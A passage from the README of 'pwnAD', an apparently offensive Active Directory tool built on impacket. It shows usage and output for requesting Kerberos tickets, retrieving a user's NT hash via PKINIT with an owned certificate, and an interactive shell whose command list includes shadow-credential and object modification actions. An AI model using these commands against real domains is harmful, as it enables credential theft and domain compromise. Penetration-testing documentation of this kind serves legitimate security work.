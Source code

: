 Standard getTGT from impacket but with PKINIT if certificate authentication is provided.

```
pwnAD [robco.corp\administrator]> getTGT
[*] Trying to get TGT...
[*] Saving ticket in administrator.ccache
```


## getST

Standard getST from impacket but with PKINIT if certificate authentication is provided.

```
pwnAD [robco.corp\administrator]> getST -spn host/dc01
[*] Getting ST for user
[*] Saving ticket in administrator@host_dc01@ROBCO.CORP.ccache
```


## getNThash

getNThash allows you to retreive NThash from a user when you own his certificate. Magic is done with PKINIT.
```
pwnAD [u:ROBCO\Administrator]> getNThash 
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for administrator
[*] Got NThash for administrator: 7c8beec53973ada7cc96009c5e68f5fc
```


# Interactive mode

Because it is always more convenient, the interactive mode is here. 
Use the `-i` or `--interactive` flag along with connection details to start the interactive mode.

```
pwnAD -i --dc-ip 192.168.100.5 -u administrator -p 'Veryprotected123!' --tls                                       

 ____ ____ ____ ____ ____ 
||p |||w |||n |||A |||D ||
||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|

Version 0.0.1 by @LightxR 


pwnAD [robco.corp\administrator]> 
```

Once started, you can type `help` or press tabulation to show the available actions :
```
pwnAD [robco.corp\administrator]> 
add           getNThash     getTGT        modify        rebind        shadow        switch_user   
get           getST         infos         query         remove        start_tls  
```
